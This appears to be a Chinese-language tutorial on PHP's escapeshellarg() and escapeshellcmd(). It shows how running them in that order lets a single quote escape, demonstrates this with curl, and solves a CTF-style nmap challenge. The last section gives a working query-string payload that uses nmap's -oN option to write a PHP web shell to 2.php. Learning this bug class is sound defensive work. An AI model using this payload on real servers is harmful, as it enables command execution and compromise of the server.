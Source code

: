 ### escapeshellarg

php手册上的解释为:

> escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号)



错误的使用:

经过 escapeshellarg 函数处理过的参数被拼凑成 shell 命令 并且被双引号包裹这样就会造成漏洞

主要在于bash中双引号和单引号解析变量是有区别的

在解析单引号的时候 , 被单引号包裹的内容中如果有变量 , 这个变量名是不会被解析成值的
但是双引号不同 , bash 会将变量名解析成变量的值再使用

```bash
lj@lj:/usr/share/virtualbox$ echo `date`
2018年 01月 29日 星期一 11:38:08 CST
lj@lj:/usr/share/virtualbox$ echo '`date`'
`date`
lj@lj:/usr/share/virtualbox$ echo "`date`"
2018年 01月 29日 星期一 11:38:21 CST
lj@lj:/usr/share/virtualbox$ echo "'`date`'"
'2018年 01月 29日 星期一 11:38:27 CST'
lj@lj:/usr/share/virtualbox$ echo '"`date`"'
"`date`"
```


如上可知， 如果参数用了 escapeshellarg 函数过滤单引号，但参数在拼接命令的时候用了双引号的话还是会导致命令执行的漏洞。


具体漏洞参考: https://www.jianshu.com/p/162844f45f1d


### escapeshellcmd

php手册上的解释为:

escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。

反斜线（\）会在以下字符之前插入： &#;`|*?~<>^()[]{}$\, \x0A 和 \xFF。 ` ' 和 " 仅在不配对儿的时候被转义`。 在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。


```php
<?php 

$s = "`ls`";
echo escapeshellcmd($s);

>>>
\`ls\`
```


### escapeshellarg() + escapeshellcmd() 之殇

这两个函数都会对单引号进行处理,但还是有区别的,区别如下:

```bash
echo escapeshellarg("l's")."\n";
echo escapeshellcmd("l's")."\n";
echo escapeshellarg("l''s")."\n";
echo escapeshellcmd("l''s")."\n";

>>>
'l'\''s'
l\'s
'l'\'''\''s'
l''s
```

对于单个单引号, escapeshellarg()函数转义后,还会在左右各加一个单引号,但escapeshellcmd()函数是直接加一个转义符

对于成对的单引号, escapeshellcmd()函数默认不转义,但escapeshellarg()函数转义:


我们来看看一个demo:

```php
<?php 
$param = "172.17.0.2' -v -d a=1";
$ep = escapeshellarg($param);
$eep = escapeshellcmd($ep);
$cmd = "curl ".$eep;
echo $ep."\n";
echo $eep."\n";
echo $cmd."\n";
system($cmd);

>>>
'172.17.0.2'\'' -v -d a=1'
'172.17.0.2'\\'' -v -d a=1\'
curl '172.17.0.2'\\'' -v -d a=1\'
* Rebuilt URL to: 172.17.0.2\/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 172.17.0.2...

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:02 --:--:--     0* connect to 172.17.0.2 port 80 failed: 没有到主机的路由
* Failed to connect to 172.17.0.2\ port 80: 没有到主机的路由
* Closing connection 0
```

$host参数先用escapeshellarg()函数过滤后再用escapeshellcmd()过滤, 这样就会出问题了,

escapeshellarg 先转义了一个单引号,然后引入了一对单引号, escapeshellcmd 不会转义成对的单引号,但是会转义转移符`\`,这样, 转移符作用失效,逃逸出来一个单引号. 

> 顺序不能反了, 如果是先用escapeshellcmd函数过滤,再用的esc
apeshellarg函数过滤,则没有这个问题.

```
'172.17.0.2'\'' -v -d a=1'
'172.17.0.2'\\'' -v -d a=1\'
```

逃逸出来单引号有什么作用呢?  在curl命令中, 正常情况下我们输入的所有数据都会被当做host主机部分去访问, 但是如果我们逃逸出来了单引号, 我们就可以加入一些其他参数了.


我们来看一道题目:

```php
<?php 

// include("flag.php");
//echo escapeshellcmd("127.1'tar cvf lj ");
// exit();

if(!isset($_GET['host'])){
    highlight_file(__FILE__);
}else{
    $host =(string)$_GET['host'];
    $host=escapeshellarg($host);
    $host=escapeshellcmd($host);
    var_dump($host);
    $sandbox = md5("box".$_SERVER['REMOTE_ADDR']);
    echo "you are in sandbox: ".$sandbox."<br/>";
    @mkdir($sandbox);
    chdir($sandbox);
    echo "<pre>";
    echo system("nmap -T5  -sT -Pn --host-timeout 2 -F  ".$host);
    echo "</pre>";
}
?>
```

我们通过闭合单引号可以引入nmap的其他参数,虽然我们没法直接闭合命令,但nmap的一些参数就可以getshell了.


    ?host=%27%20<?=`id`;?> -oN 2.php-v 3
    
说明: nmap的-oN命令表示到处正常文件, 这里我们可以自定义文件名为2.php, 我们来看一下写入的文件内容

```php
# Nmap 7.01 scan initiated Tue Feb 27 14:21:40 2018 as: nmap -T5 -sT -Pn --host-timeout 2 -F -oN 2.php -v \ <?=`id`;?> 3'
Failed to resolve "\".
Failed to resolve "<?=`id`;?>".
Failed to resolve "3'".
Read data files from: /usr/bin/../share/nmap
WARNING: No targets were specified, so 0 hosts scanned.
# Nmap done at Tue Feb 27 14:21:40 2018 -- 0 IP addresses (0 hosts up) scanned in 0.05 seconds
```

访问成功执行命令.

